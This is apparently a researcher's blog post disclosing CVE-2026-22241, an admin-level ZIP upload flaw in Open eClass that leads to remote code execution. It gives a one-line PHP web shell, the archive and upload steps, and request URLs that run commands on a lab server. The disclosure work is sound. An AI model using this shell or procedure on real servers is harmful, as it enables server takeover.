+++
title = 'CVE-2026-22241 : Open eClass Unrestricted File Upload Leads to Remote Code Execution'
date = 2026-01-08
description = 'CVE-2026-22241 open eclass < 4.2 had an arbitrary file upload vulnerability leading to remote code execution RCE on the web server'
draft = false
+++

Hello Fri3nd,

**Happy New Year 2026!** Have a wonderful year ahead. I recently discovered my first CVE in [Open eClass](https://www.openeclass.org/) (prior to v4.2), a widely used open-source course management system. The flaw is assigned as [CVE-2026-22241](https://www.cve.org/CVERecord?id=CVE-2026-22241) with CVSS Score of **7.3 HIGH** , that allows an administrative user to achieve Remote Code Execution (RCE) by uploading a malicious ZIP file into the web server.

> Open eClass (formerly GUnet eClass) is a platform used by educational institutions to manage courses and digital classrooms. 


### Vulnerability Overview:
- The Entry Point: An admin can upload a `evil.zip` archive containing theme data.

- The Flaw: The application extracts the contents of the ZIP file into a publicly accessible directory `/courses/theme_data/` without validating the file types inside the archive.

- The Exploit: By packing a simple PHP shell into the ZIP file, the server extracts it and RCE is achieved.


## Exploitation Steps

#### Version Details

```bash
Web Server Version: Apache/2.4.58 (Ubuntu)
PHP version : 8.3.6
Database server version : 8.0.40-0ubuntu0.24.04.1
Version : Open eClass 4.0.1
```



### Video Poc Explanation



### Automated Exploit



### Manual Exploitation Steps 
#### Step 1. Login as an Administrator



#### Step 2. Navigate to the "Admin Tool" > "Theme Setting" form Administration Page.



Now navigate to "Theme Settings"



Direct Url : 
```
http://172.16.10.134/openeclass/modules/admin/theme_options.php
```

Import Option



#### Step 3. Creating the Malicious Zip.

Create a malicious file contains `evil.php` 

```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

Create the archive.

```bash
zip poc.zip evil.php 
```



#### Step 4. Upload the malicious zip in import option



After uploading we will get successful upload message.



#### Step 5. Execute Remote Commands

Now execute arbitrary commands using directly via a web browser

RCE Example executing `whoami`:

```
http://172.16.10.134/openeclass/courses/theme_data/evil.php?cmd=whoami
```



RCE Example executing `uname -a`:

```
http://172.16.10.134/openeclass/courses/theme_data/evil.php?cmd=uname%20-a
```




## Acknowledgements

- [RoboGR00t](https://github.com/RoboGR00t) for initial research on Open eClass GUnet.
- [FreySolarEye](https://github.com/FreySolarEye) for research on Open eClass GUnet.
- [GUnet](https://www.openeclass.org/) for their ongoing commitment to enhancing platform security.


## References

- GitHub Advisory: [GHSA-rf6j-xgqp-wjxg](https://github.com/gunet/openeclass/security/advisories/GHSA-rf6j-xgqp-wjxg)
- CVE ORG : [CVE-2026-22241](https://www.cve.org/CVERecord?id=CVE-2026-22241)
- NVD : [CVE-2026-22241](https://nvd.nist.gov/vuln/detail/CVE-2026-22241)


If you enjoyed this deep dive there's more content on my YouTube channel [Security Journey With Ashif](https://www.youtube.com/@ashif1337) 



Q1RGe0ZpcnN0X0NWRS0yMDI2LTIyMjQxfQo=

